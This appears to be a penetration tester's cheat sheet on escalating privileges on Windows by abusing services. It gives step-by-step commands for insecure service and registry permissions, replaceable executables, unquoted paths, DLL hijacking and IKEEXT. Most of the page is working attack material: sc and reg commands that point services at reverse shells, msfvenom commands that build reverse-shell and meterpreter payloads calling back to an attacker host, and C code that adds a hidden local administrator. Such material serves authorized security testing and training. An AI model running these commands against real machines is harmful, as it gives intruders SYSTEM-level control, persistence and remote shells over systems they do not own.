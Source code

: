 ```yaml
---
title: Services
parent: Method (Windows)
layout: default
nav_order: 1
---
```


Quick enum:
1. `tasklist /SVC`\
   for list of processes related to services.
2. `sc qc servicename`\
   Query configuration\
   `sc query servicename`\
   Query current status\
   `sc config servicename option=value`\
   Modify configuration\
   `net start servicename`\
   `net stop servicename`\
   Start/Stop service
3. `accesschk.exe /accepteula -uwcqv "Authenticated Users" *`\
   to check which service you have access

## Insecure Service Permission
1. `winpeas.exe quiet servicesinfo` - first check
2. Check if can modify any service.
3. Confirm the access: `accesschk.exe /accepteula -uwcqv username servicename`
4. Check config: `sc qc servicename`
5. Check status: `sc query servicename`
6. Reconfigure to our reverse shell: `sc config servicename binpath= "\"C:\PrivEsc\reverse.exe\""` (or try `sc config upnphost binpath= "C:\shell3.exe"`)
7. Optional: `sc config servicename obj= ".\LocalSystem" password= ""`
8. Start listener, then start/restart the service with `net start servicename`
9. If the service is automatic and you cant restart service, can try restart pc with `shutdown /r /t 0` (USE `shutdown -r -t 10 && exit`, it is better!)

## Weak Registry Permissions
1. `winpeas.exe quiet servicesinfo` - first check
2. Check for weak registry entry.
3. Use Powershell to confirm: `Get-Acl HKLM:\System\CurrentControlSet\Services\servicename | Format-List`. Can use accesschk as well: `accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\servicename`
4. Overwrite the image path to our shell: `reg add HKLM\SYSTEM\CurrentControlSet\services\servicename /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f`
5. Start listener, then start/restart the service with `net start servicename`
6. If the service is automatic and you cant restart service, can try restart pc with `shutdown /r /t 0` (USE `shutdown -r -t 10 && exit`, it is better!)

## Insecure Service Executable
1. `winpeas.exe quiet servicesinfo` - first check
2. Check for executable that can be written by everyone.
3. Use accesschk to confirm: `accesschk.exe /accepteula -quvw "C:\Program Files\Some Program\programname.exe"`
4. Backup the file: `copy "C:\Program Files\Some Program\programname.exe" C:\Temp`
5. Replace with our shell: `copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe"`
6. Alternative: Use `move originalservice.exe backupservice.exe` to move the file away as backup, then copy the exploit file using `copy shell80.exe originalservice.exe`. (This can bypass the 'service running error')
7. Start listener, then start/restart the service with `net start servicename`
8. If the service is automatic and you cant restart service, can try restart pc with `shutdown /r /t 0`  (USE `shutdown -r -t 10 && exit`, it is better!)
9. To create the executable:\
    `msfvenom --platform Windows -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe-service -o service1.exe`
10. Alternatively, can use the C code below (change the exec to the service that you backup-ed. Note: can remove WinExec line if it causes trouble. Just login using the account created.):

addAdmin.c
```
int main(void){
     system("net user test password1234 /add");
     system("net localgroup Administrators test /add");
     WinExec("C:\\bd\\bd.service.exe",0);
    return 0;
    }
```

11. Compile using: `i686-w64-mingw32-gcc addAdmin.c -l ws2_32 -o addAdmin.exe`
12. Use `move originalservice.exe backupservice.exe` to move the file away as backup, then copy the exploit file using `copy shell80.exe originalservice.exe`. (This can bypass the 'service running error')

## Insecure Service File Permission
1. `Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}` to get running services and their executable path.
2. `icacls "C:\Program Files\xx.exe"` to use icacls and see what permissions we have. F-Full, M-Modify, RX-Read and Execute, R-Read only, W-Write only.
3. If access is available we can try to replace this executable (either with reverse shell or add user). Use `move originalservice.exe backupservice.exe` to move the file away as backup, then copy the exploit file using `copy shell80.exe originalservice.exe`. (This can bypass the 'service running error')
4. Can first try restart service after replacing with `net stop xx` and `net start xx`. If cannot, check if the service is automatic with `wmic service where caption="Serviio" get name, caption, state, startmode`. If yes, can restart the PC for it to restart service.
5. Check if you can restart PC: `whoami /priv`. If SeShutdownPrivilege is listed, means can restart with `shutdown /r /t 0`.  (USE `shutdown -r -t 10 && exit`, it is better!)

## Unquoted Service Path
1. If any of the service path is unquoted (for example: `C:\Program Files\My Program\My Service\service.exe`), Windows will interpret (based on order) the following: `C:\Program.exe`, `C:\Program Files\My.exe`, `C:\Program Files\My Program\My.exe`, `C:\Program Files\My Program\My Service\service.exe`.
2. We can then replace our executable in any of the path above.
3. `winpeas.exe quiet servicesinfo` - first check
4. Check for any unquoted path with spaces.
5. `sc qc servicename` to confirm.
6. Check for permission:\
   `accesschk.exe /accepteula -uwdq C:`\
   `accesschk.exe /accepteula -uwdq "C:\Program Files\"`\
   `accesschk.exe /accepteula -uwdq "C:\Program Files\My Program"`
7. Put the shell in any of the writable path.
8. Start listener, then start/restart the service with `net start servicename`
9. If the service is automatic and you cant restart service, can try restart pc with `shutdown /r /t 0` (USE `shutdown -r -t 10 && exit`, it is better!)

## DLL Hijacking
1. `winpeas.exe quiet servicesinfo` - first check
2. Check writable directory and is in PATH.
3. Check we can start and stop which services: `accesschk.exe /accepteula -uvqc username somedllsvc`
4. Confirm the executable: `sc qc somedllsvc`
5. Run procmon64 with admin and filter based on "`Process name matching dllexecutable.exe`"
6. On procmon main screen, deselect registry activity and network activity.
7. Start/Restart the service: `net start somedllsvc`
8. In Procmon will see that there are a few NAME NOT FOUND error with dll name.
9. Use msfvenom:\
    `msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f dll -o dllname.dll`
10. Start listener, then start/restart the service with `net start servicename`
11. If need to restart use `shutdown -r -t 10 && exit`.

## IKEEXT
1. Use `sc query IKEEXT`
2. Confirm the dll file does not exist: `dir wlbsctrl.dll /s`
3. Get the PATH to see where we can inject our DLL: `PATH`
4. Perform icacls on the path to see where we can write, eg: `icacls C:\Python\Scripts\ `
5. If we have modify/full permission, can generate the dll and put there:\
   `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f dll > wlbsctrl.dll`
6. Set the listener and power cycle it: `shutdown -r -t 10 && exit`